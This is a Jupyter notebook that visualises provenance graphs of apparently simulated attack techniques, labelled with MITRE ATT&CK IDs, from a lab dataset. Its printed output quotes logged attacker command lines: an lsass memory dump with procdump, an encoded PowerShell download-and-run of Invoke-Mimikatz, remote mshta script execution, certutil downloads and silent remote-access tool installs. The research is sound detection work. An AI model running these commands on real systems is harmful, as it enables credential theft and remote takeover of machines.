In [23]:
import os
import numpy as np
import networkx as nx
from tqdm import tqdm
import matplotlib.cm as cm
import matplotlib.pyplot as plt
import matplotlib.patches as mpatches
from networkx.drawing.nx_agraph import graphviz_layout

def read_data(file_path):
    edges = []
    with open(file_path, "r") as file:
        next(file) # pass the 0th row (titles)

        for line in file:
            source, src_entity, destination, dest_entity, relation, label = line.strip().split(' ')
            # This is the without benign version
            if label == 'benign' or label.startswith('T1005') or label.startswith('T1046'): continue
            edges.append((source, src_entity, destination, dest_entity, relation, label))
            
    # edges is a list contains all the information (each set is stored in a tuple)
    return edges


def read_node_id_entity_map(file_path):
    node_id_entity_map = {}
    with open(file_path, 'r') as file:
        next(file)
        for line in file:
            entity, node_id = line.strip().split('\t') # splitted by the space
            node_id_entity_map[node_id] = entity
            
    return node_id_entity_map


def get_other_labels_edges(full_edges, related_nodes, target_label):
    other_labels_edges = []
    for edge in full_edges:
        source, src_entity, destination, dest_entity, relation, label = edge
        if label != target_label and (source in related_nodes or destination in related_nodes):
            other_labels_edges.append(edge)
    return other_labels_edges


def get_related_nodes(edges, target, is_label=True):
    related_nodes = set()

    for edge in edges:
        source, src_entity, destination, dest_entity, relation, label = edge
        if (is_label and label == target) or (not is_label and (source == target or destination == target)):
            related_nodes.add(source)
            related_nodes.add(destination)

    return related_nodes

def draw_graph(full_edges, target_edges, file_name, target_label, node_id_entity_map, title=None, figsize=(10, 8), dpi=100):
    related_nodes = get_related_nodes(target_edges, title)  # only consider edges with target_label
    other_labels_edges = get_other_labels_edges(full_edges, related_nodes, title)

    # Separate edges into main graph and others
    main_edges = [edge for edge in target_edges if edge[-1] == target_label]
    other_edges = [edge for edge in target_edges if edge[-1] != target_label] + other_labels_edges

    G = nx.DiGraph()
    edge_labels = {}
    node_colors = {}
    edge_colors = {}
    node_shapes = {
        'process': 'o',    # Circle
        'registry': 'h',   # Hexagon
        'file': 's',       # Square
        'network': 'd'     # Diamond
    }

    # Extract unique labels (e.g., 'T1115_707' from 'T1115_70795de7cbb842edb029b3378c27c008')
    unique_labels = list(set([label.split('_')[0] + '_' + label.split('_')[1][:3] for _, _, _, _, _, label in other_edges]))  

    # Convert the target_label to same format as other labels
    target_label_modified = target_label.split('_')[0] + '_' + target_label.split('_')[1][:3]

    # Create a color map with unique colors for each label
    colors = cm.rainbow(np.linspace(0, 1, len(unique_labels)+1))
    red_color = np.array([1, 0, 0, 1])  # Red color
    color_map = {label: color for label, color in zip(unique_labels, colors) if not np.array_equal(color, red_color)}
    color_map[target_label_modified] = red_color  # Assign red color to the target label separately
    # color_map['benign'] = 'skyblue'  # Assign black color to the benign label
    # print(color_map)

    # Add other edges
    for source, src_entity, destination, dest_entity, relation, label in other_edges:
        # if label == 'benign': continue

        # before adding the edge
        src_node_shape = node_shapes.get(src_entity, 'o')  # Use 'o' as the default shape
        dest_node_shape = node_shapes.get(dest_entity, 'o')  # Use 'o' as the default shape
#         print(src_entity, dest_entity) # correct

        # 檢查來源和目標節點是否存在，如果不存在就添加並設定形狀
        if source not in G.nodes:
            G.add_node(source)
            G.nodes[source]['shape'] = src_node_shape

        if destination not in G.nodes:
            G.add_node(destination)
            G.nodes[destination]['shape'] = dest_node_shape
#         print(G.nodes[destination]['shape'])
        

        edge = (source, destination)
        if label != '0':
            label_prefix = label.split('_')[0]  # Get the first element after splitting by '_'
            label_prefix_extended = label_prefix + "_" + label.split('_')[1][:3]  # Add "_" and the first three characters after the second '_' to the label_prefix
        else:
            label_prefix_extended = 'benign'

        if edge in G.edges():
            edge_labels[edge] += ", " + relation
        else:
            G.add_edge(source, destination)

            # Check if the edge is a part of the target edges (main graph)
            if label == target_label:
                node_colors[source] = 'red'
                node_colors[destination] = 'red'
                edge_colors[edge] = 'red'
            else:
                node_colors[source] = color_map.get(label_prefix_extended, 'gray')  # Set gray as the default color
                node_colors[destination] = color_map.get(label_prefix_extended, 'gray')  # Set gray as the default color
                edge_colors[edge] = color_map.get(label_prefix_extended, 'black')

            edge_labels[edge] = relation

    # Add main graph edges
    for source, src_entity, destination, dest_entity, relation, label in main_edges:
        if label == 'benign': continue

        # before adding the edge
        src_node_shape = node_shapes.get(src_entity, 'o')  # Use 'o' as the default shape
        dest_node_shape = node_shapes.get(dest_entity, 'o')  # Use 'o' as the default shape
        # print(src_entity, dest_entity) # correct

        # check if the src and dest nodes are exist, if not -> add and assign the shapes
        if source not in G.nodes:
            G.add_node(source)
            G.nodes[source]['shape'] = src_node_shape

        if destination not in G.nodes:
            G.add_node(destination)
            G.nodes[destination]['shape'] = dest_node_shape
        # print(G.nodes[destination]['shape'])


        edge = (source, destination)
        G.add_edge(source, destination)
        node_colors[source] = 'red'
        node_colors[destination] = 'red'
        edge_colors[edge] = 'red'

        if edge in edge_labels:
            edge_labels[edge] += ", " + relation
        else:
            edge_labels[edge] = relation

    pos = graphviz_layout(G, prog="dot")
    pos = {node: (x, y-0.1) for node, (x, y) in pos.items()}

    plt.figure(figsize = figsize, facecolor='white')

    # Draw nodes with custom label styles
    node_labels = {node: rf"$\bf{{{node}}}$" for node in G.nodes()}
    nx.draw_networkx_edges(G, pos, edge_color=[edge_colors[edge] for edge in G.edges()])

    # nx.draw(G, pos, with_labels=False, node_size=1500, font_size=8, node_color=[node_colors[node] for node in G.nodes()], edge_color=[edge_colors[edge] for edge in G.edges()], arrowsize=10, font_color='black')
    for shape in node_shapes.values():
        nodelist=[node for node, data in G.nodes(data=True) if data['shape'] == shape]
        colorlist = [node_colors.get(node, 'g') for node in nodelist]

        nx.draw_networkx_nodes(G, pos,
            nodelist=nodelist,
            node_color=colorlist,
            node_size=1500,
            node_shape=shape)

    nx.draw_networkx_labels(G, pos, labels=node_labels, font_size=8, font_weight='bold', font_color='black')
    # Draw edges with custom edge labels
    edge_labels = {(source, destination): f"({len(relations.split(','))})" for (source, destination), relations in edge_labels.items()}
    # edge_color = [edge_colors[edge] if edge in edge_colors else 'black' for edge in G.edges()]
    nx.draw_networkx_edge_labels(G, pos, edge_labels=edge_labels)

    # # get the sum of the relations
    # total_relations = sum(int(label.strip('()')) for label in edge_labels.values())


    if title:
        plt.text(0, 1, title, transform=plt.gca().transAxes, fontsize=12, fontweight='bold', verticalalignment='top')

    # for labeling all the label with the corresponding color
    patches = [mpatches.Patch(color=color, label=label) for label, color in color_map.items()]
    plt.legend(handles=patches)

    plt.axis('off')  # Turn off the axis frame
    plt.savefig(file_name + ".png", dpi=dpi)
    plt.show()
    plt.clf()

    # Print the extra messages
    # print(f"Number of relations in the graph: {len(edges)}")
    print(f"Number of relations in the graph: {len(target_edges)}")
    count = 0
    
    # for node in G.nodes and count < 5:
    for node in list(G.nodes)[:5]:
        count += 1
        print(f'{node} : {node_id_entity_map.get(node, "unknown")}')


def get_related_nodes(edges, target_label):
    related_nodes = set()

    for edge in edges:
        if edge[5] == target_label:
            related_nodes.add(edge[0])
            related_nodes.add(edge[2]) # originally [1]

    return related_nodes


def get_other_labels_edges(full_edges, related_nodes, target_label):
    other_labels_edges = []
    for edge in full_edges:
        source, src_entity, destination, dest_entity, relation, label = edge
        if label != target_label and (source in related_nodes or destination in related_nodes):
            other_labels_edges.append(edge)
    return other_labels_edges


def is_valid_target_label(target_label):
    parts = target_label.split('_')
    return len(parts) >= 2 and len(parts[0]) > 0 and len(parts[1]) > 0

def draw_all_graphs(file_path, node_id_entity_map):
    full_edges = read_data(file_path) 

    unique_labels = set(edge[5] for edge in full_edges)
    label_edge_counts = {label: len([edge for edge in full_edges if edge[5] == label]) for label in unique_labels}
    sorted_labels = sorted(unique_labels, key=lambda x: label_edge_counts[x], reverse=True)

    os.makedirs("../graph_others2/", exist_ok=True)
    
    # every loop has it's own target label(unique)
    for target_label in tqdm(sorted_labels):
        if not is_valid_target_label(target_label):
            print(f"Invalid target_label: {target_label}") 
            continue

        target_edges = [edge for edge in full_edges if edge[5] == target_label]

        file_name = f"../graph_others2/{target_label}"
#         draw_graph(target_edges, file_name, target_label, node_id_entity_map, title=target_label)
        draw_graph(full_edges, target_edges, file_name, target_label, node_id_entity_map, title=target_label)

        print(f"{file_name}.png has been generated!")

# file_path = "../data_with_entity/test.txt"
file_path = "../data_new_entity/combined_file_with_entity.txt"
node_id_entity_map = read_node_id_entity_map('../data_new_entity/entity2id.txt')

draw_all_graphs(file_path, node_id_entity_map)
print("DONE!!")


# Test version of non-benign

100%|██████████| 165/165 [00:00<00:00, 3181.36it/s]


{'T1564_dedfa0a54c9c13ce5714a0dc2e1f5d1a': 1, 'T1047_f4b0b4129560ea66f9751275e82f6bab': 1, 'T1057_b2a1e430ca6d36eb5af2fe666e769847': 1, 'T1016_a0676fe1-cd52-482e-8dde-349b73f9aa69': 1, 'T1112_cab7b85611a290c0769546bfa9d6f962': 3, 'T1562.001_43e3334362b140924f001b256b229ee5': 2, 'T1049_638fb6bb-ba39-4285-93d1-7e4775b033a8': 1, 'T1490_c156ac5c9fa67080365268d95f29053d': 1, 'T1552.002_3e5b04b8ee0a1a4950da8f35d95e65fc': 2, 'T1047_ed736a123da6fb2aab22cfd4f437e8b5': 1, 'T1003.001_0ef4cc7b-611c-4237-b20b-db36b6906554': 64, 'T1059.001_e5f9de8f-3df1-4e78-ad92-a784e3f6770d': 147, 'T1564.001_66a5fd5f244819181f074dd082a28905': 9, 'T1518.001_33a24ff44719e6ac0614b58f8c9a7c72': 2, 'T1070.005_1f91076e2be2014cc7b4f1296de02fd6': 6, 'T1547.001_777043894e42d2aae3881e63f6c76d33': 2, 'T1059.003_6c318ef0339d74d909ad556681b6493e': 7, 'T1021.001_dd67068b052fa553ad4a0ac7d6a5ea89': 6, 'T1562.002_94f51bf01a7036fe02d07b4c18967669': 1, 'T1016_e8017c46-acb8-400c-a4b5-b3362b5b5baa': 1, 'T1120_7b9c7afaefa59aab759b49af0

  0%|          | 0/165 [00:00<?, ?it/s]

T1560_a1ee301b0508747b468d578a14e5c1a5




  1%|          | 1/165 [00:14<38:47, 14.19s/it]

Number of relations in the graph: 224
607044 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Get-Service_>_$env:TEMP\T1119_1.txt;_Get-ChildItem_Env:_>_$env:TEMP\T1119_2.txt;_Get-Process_>_$env:TEMP\T1119_3.txt"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&11144
192015 : C:\Users\ezk
365620 : C:\Users\ezk\AppData
291481 : C:\Users\ezk\AppData\Local
28535 : C:\Users\ezk\AppData\Local\Temp
../graph_others2/T1560_a1ee301b0508747b468d578a14e5c1a5.png has been generated!
T1105_eb814e03-811a-467a-bc6d-dcd453750fa2


<Figure size 432x288 with 0 Axes>



  1%|          | 2/165 [00:15<18:39,  6.87s/it]

Number of relations in the graph: 150
529782 : powershell.exe_-ExecutionPolicy_Bypass_-C_"[System.Net.ServicePointManager]::ServerCertificateValidationCallback_=_{_$True_};$web_=_(New-Object_System.Net.WebClient);$result_=_$web.DownloadFile(\"https://download.sysinternals.com/files/PSTools.zip\",_\"PSTools.zip\");New-Item_-ItemType_\"directory\"_C:\Windows\System32\PSTools_-Force;Add-Type_-Assembly_'System.IO.Compression.FileSystem';_[System.IO.Compression.ZipFile]::ExtractToDirectory(\"PSTools.zip\",_\"C:\Windows\System32\PSTools\");"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&4032
215899 : C:\Windows\System32\PSTools.zip
570146 : C:\Windows\System32\PSTools\psfile.exe
582317 : C:\Windows\System32\PSTools\psfile64.exe
432435 : C:\Windows\System32\PSTools\pskill.exe
../graph_others2/T1105_eb814e03-811a-467a-bc6d-dcd453750fa2.png has been generated!
T1059.001_e5f9de8f-3df1-4e78-ad92-a784e3f6770d


<Figure size 432x288 with 0 Axes>



  2%|▏         | 3/165 [00:19<14:39,  5.43s/it]

Number of relations in the graph: 147
100175 : cmd.exe_/C_copy_%windir%\System32\windowspowershell\v1.0\powershell.exe_%APPDATA%\updater.exe_&&_copy_%windir%\System32\amsi.dll_%APPDATA%\amsi.dll_&&_%APPDATA%\updater.exe_-Command_exit&C:\Windows\system32\cmd.exe&cmd.exe&7184
263370 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
395256 : C:\Users\ezk\AppData\Roaming\updater.exe__-Command_exit&C:\Users\ezk\AppData\Roaming\updater.exe&updater.exe&612
168759 : HKCU\Software\Classes\Local_Settings\MuiCache\23\52C64B7E\@%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe,-124
83068 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Copy-Item_C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe_C:\Windows\Temp\debug.exe;C:\Windows\Temp\debug.exe_get-process_>>_C:\Windows\temp\debug.log;C:\Windows\Temp\debug.exe_get-localgroup_>>_C:\Windows\temp\debug.log;C:\Windows\Temp\debug.exe_get-localuser_>>_C:\Windows\temp\debug.log;C:\Windows\Temp\debug.exe_Get-ItemProperty_Registry:

<Figure size 432x288 with 0 Axes>



  2%|▏         | 4/165 [00:22<12:04,  4.50s/it]

Number of relations in the graph: 115
632069 : certutil__-urlcache_-split_-f_https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt_Atomic-license.txt&C:\Windows\system32\certutil.exe&certutil.exe&5284
60370 : DESKTOP-BA1RQFC.blueteam.com&117.18.237.29:http
334599 : "C:\Program_Files_(x86)\LogMeIn_Ignition\LMIIgnition.exe"_/S_&C:\Program_Files_(x86)\LogMeIn_Ignition\LMIIgnition.exe&LMIIgnition.exe&10208
436925 : mshta.exe__javascript:a=GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/mshta.sct').Exec();close()&C:\Windows\system32\mshta.exe&mshta.exe&9664
242529 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Invoke-WebRequest_-OutFile_C:\Users\$env:username\Downloads\GoToAssist.exe_\"https://launch.getgo.com/launcher2/helper?token=e0-FaCddxmtMoX8_cY4czssnTeGvy83ihp8CLREfvwQshiBW0_RcbdoaEp8IA-Qn8wpbKlpGIflS-39gW6RuWRM-XHwtkRVMLBsp5RSKp-a3PBM-Pb1Fliy73EDgoaxr-q83WtXbLKqD7-u3cfDl9gKsymmhdkTGsXcDXir90NqKj92L

<Figure size 432x288 with 0 Axes>



  3%|▎         | 5/165 [00:24<09:11,  3.45s/it]

Number of relations in the graph: 94
632069 : certutil__-urlcache_-split_-f_https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt_Atomic-license.txt&C:\Windows\system32\certutil.exe&certutil.exe&5284
688789 : DESKTOP-BA1RQFC.blueteam.com&cdn-185-199-108-133.github.com:https
649154 : "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"_-enc_SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAHUAcwBlAHIAYwBvAG4AdABlAG4AdAAuAGMAbwBtAC8ARQBtAHAAaQByAGUAUAByAG8AagBlAGMAdAAvAEUAbQBwAGkAcgBlAC8ANwBhADMAOQBhADUANQBmADEAMgA3AGIAMQBhAGUAYgA5ADUAMQBiADMAZAA5AGQAOAAwAGMANgBkAGMANgA0ADUAMAAwAGMAYQBjAGIANQAvAGQAYQB0AGEALwBtAG8AZAB1AGwAZQBfAHMAbwB1AHIAYwBlAC8AYwByAGUAZABlAG4AdABpAGEAbABzAC8ASQBuAHYAbwBrAGUALQBNAGkAbQBpAGsAYQB0AHoALgBwAHMAMQAiACkAOwAgACQAbQAgAD0AIABJAG4AdgBvAGsAZQAtAE0AaQBtAGkAawBhAHQAegAgAC0ARAB1AG0AcABDAHIAZQBkAHMAOwAgACQAbQAKAA==

<Figure size 432x288 with 0 Axes>



  4%|▎         | 6/165 [00:26<07:58,  3.01s/it]

Number of relations in the graph: 87
83068 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Copy-Item_C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe_C:\Windows\Temp\debug.exe;C:\Windows\Temp\debug.exe_get-process_>>_C:\Windows\temp\debug.log;C:\Windows\Temp\debug.exe_get-localgroup_>>_C:\Windows\temp\debug.log;C:\Windows\Temp\debug.exe_get-localuser_>>_C:\Windows\temp\debug.log;C:\Windows\Temp\debug.exe_Get-ItemProperty_Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion_>>_C:\Windows\temp\debug.log;"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&5156
263370 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
168759 : HKCU\Software\Classes\Local_Settings\MuiCache\23\52C64B7E\@%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe,-124
747869 : "C:\Windows\Temp\debug.exe"_get-process&C:\Windows\Temp\debug.exe&debug.exe&10884
241991 : "C:\Windows\Temp\debug.exe"_get-localgroup&C:\Windows\Temp\debug.exe&debug.exe&11008
../g

<Figure size 432x288 with 0 Axes>



  4%|▍         | 7/165 [00:28<07:02,  2.67s/it]

Number of relations in the graph: 67
266154 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Invoke-WebRequest_-OutFile_C:\Users\$env:username\Desktop\AnyDesk.exe_https://download.anydesk.com/AnyDesk.exe;_$file1_=_\"C:\Users\\\"_+_$env:username_+_\"\Desktop\AnyDesk.exe\";_Start-Process_$file1_/S;"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&3824
16141 : DESKTOP-BA1RQFC.blueteam.com&static.197.19.69.159.clients.your-server.de:https
459822 : C:\Users\ezk\Desktop\AnyDesk.exe
88010 : C:\Users\ezk\Desktop\AnyDesk.exe:Zone.Identifier
329298 : HKLM\Software\Microsoft\Windows\CurrentVersion\App_Paths\AnyDesk.exe
../graph_others2/T1219_7dabcbecab0334b115feefab1630f84a.png has been generated!
T1003.001_0ef4cc7b-611c-4237-b20b-db36b6906554


<Figure size 432x288 with 0 Axes>



  5%|▍         | 8/165 [00:29<05:39,  2.16s/it]

Number of relations in the graph: 64
701888 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$ps_url_=_\"https://download.sysinternals.com/files/Procdump.zip\";$download_folder_=_\"C:\Users\Public\\\";$staging_folder_=_\"C:\Users\Public\temp\";Start-BitsTransfer_-Source_$ps_url_-Destination_$download_folder;Expand-Archive_-LiteralPath_$download_folder\"Procdump.zip\"_-DestinationPath_$staging_folder;$arch=[System.Environment]::Is64BitOperatingSystem;if_($arch)_{____iex_$staging_folder\"\procdump64.exe_-accepteula_-ma_lsass.exe\"_>_$env:APPDATA\error.dmp_2>&1;}_else_{____iex_$staging_folder\"\procdump.exe_-accepteula_-ma_lsass.exe\"_>_$env:APPDATA\error.dmp_2>&1;}remove-item_$staging_folder_-Recurse;"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&10760
352571 : C:\Users\Public\Procdump.zip
175047 : C:\Users\Public\temp\procdump.exe
739783 : C:\Users\Public\temp\procdump64.exe
283389 : C:\Users\Public\temp\procdump64a.exe
../graph_others2/T1003.001_0ef4cc7b-611c-42

<Figure size 432x288 with 0 Axes>



  5%|▌         | 9/165 [00:32<06:10,  2.37s/it]

Number of relations in the graph: 63
459726 : cmd.exe_/C_dir_|_clip_&&_echo_"T1115"_>_%temp%\T1115.txt_&&_clip_<_%temp%\T1115.txt&C:\Windows\system32\cmd.exe&cmd.exe&2332
750349 : C:\Windows\System32\cmd.exe
165999 : powershell.exe_-ExecutionPolicy_Bypass_-C_"copy_$env:ComSpec_($env:TEMP_+_\"\svchost.exe\");_$myT1036_003_=_(Start-Process_-PassThru_-FilePath_($env:TEMP_+_\"\svchost.exe\")).Id;_Stop-Process_-ID_$myT1036_003"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9004
314910 : cmd.exe_/C_copy_C:\Windows\System32\cmd.exe_C:\svchost.exe_&&_C:\svchost.exe_/c_echo_T1105_>_\\localhost\c$\T1105.txt&C:\Windows\system32\cmd.exe&cmd.exe&1600
131803 : C:\svchost.exe
../graph_others2/T1105_e6715e61f5df646692c624b3499384c4.png has been generated!
T1219_f1b3fca18d7465cd10e5a7477a3bf97d


/workdir/home/euni/anaconda3/lib/python3.9/site-packages/pygraphviz/agraph.py:1407: RuntimeWarning: Warning: using box for unknown shape o

  warnings.warn(b"".join(errors).decode(self.encoding), RuntimeWarning)


<Figure size 432x288 with 0 Axes>



  6%|▌         | 10/165 [00:33<05:11,  2.01s/it]

Number of relations in the graph: 62
632069 : certutil__-urlcache_-split_-f_https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt_Atomic-license.txt&C:\Windows\system32\certutil.exe&certutil.exe&5284
60370 : DESKTOP-BA1RQFC.blueteam.com&117.18.237.29:http
672299 : "C:\Users\ezk\Downloads\GoToAssist.exe"_/S_&C:\Users\ezk\Downloads\GoToAssist.exe&GoToAssist.exe&11044
436925 : mshta.exe__javascript:a=GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/mshta.sct').Exec();close()&C:\Windows\system32\mshta.exe&mshta.exe&9664
561449 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Invoke-WebRequest_-OutFile_C:\Users\$env:username\Desktop\LogMeInIgnition.msi_https://secure.logmein.com/LogMeInIgnition.msi;_$file1_=_\"C:\Users\\\"_+_$env:username_+_\"\Desktop\LogMeInIgnition.msi\";_Start-Process_-Wait_$file1_/quiet;_Start-Process_'C:\Program_Files_(x86)\LogMeIn_Ignition\LMIIgnition.exe'_\"/S\""&C:\Windows\System32\Wi

<Figure size 432x288 with 0 Axes>

